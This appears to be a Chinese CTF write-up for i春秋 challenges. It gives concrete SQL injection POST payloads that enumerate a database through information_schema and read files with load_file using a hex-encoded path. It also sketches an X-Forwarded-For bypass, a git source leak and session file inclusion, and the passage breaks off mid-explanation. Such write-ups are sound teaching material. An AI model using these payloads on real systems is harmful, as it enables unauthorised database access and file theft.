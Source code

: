 3. 爆破数据库名

```
ichunqiu.com/member/userinfo.php?job=edit&step=2
POST：
truename=ycc%0000&Limitword[000]=&email=ycc@qq.com&provinceid= , address=(select version()) where uid = 3 %23 
```

4. 爆破表

```
ichunqiu.com/member/userinfo.php?job=edit&step=2
POST：
truename=ycc%0000&Limitword[000]=&email=ycc@qq.com&provinceid= , address=(select group_concat(table_name) from information_schema.tables where table_schema=database()) where uid = 3 %23 
```
5.查列名

```
address=(select group_concat(distinct(column_name)) from information_schema.columns where table_name = (select distinct(table_name) from information_schema.tables where table_schema = database() limit 1) ) where uid = 3 %23 
```

sql注入 load_file，直接写成load_file('/var/www/html/flag.php')是不行的，引号会被转义，转成16进制

```
address=(select load_file(0x2f7661722f7777772f68746d6c2f666c61672e706870) ) where uid = 3 %23 
```

## fuzzing（i春秋）

抓包发现response头部hint: ip,Large internal network

设置X-Forwarded-For:10.0.0.0，提示/m4nage.php

访问/m4nage.php，尝试post key=1，提示key is not right,md5(key)==="1b4167610ba3f2ac426a68488dbd89be",and the key is ichunqiu***,the * is in [a-z0-9]，post key=ichunqiu105，得到提示the next step: xx00xxoo.php

访问xx00xxoo.php，提示源码在x0.txt，访问后执行函数得到flag

## hello world

这题考的是git源码泄露，extract_git脚本扫描下载

对比flag.js和flag.js.04bb09，差异的地方就是flag

### notebook

session文件包含漏洞

/action.php?module=&file= 用文件包含打开phpinfo.php

打开phpinfo.php，可以看到open_basedir是/var/www/html/:/tmp，open_basedir是可将用户访问文件的活动范围限制在指定的区域。注意用open_basedir指定的限制实际上是前缀,而不是目录名。

用file=phpinfo.php，可以看到session.save_path是/temp/SESS，可以使用session包含，
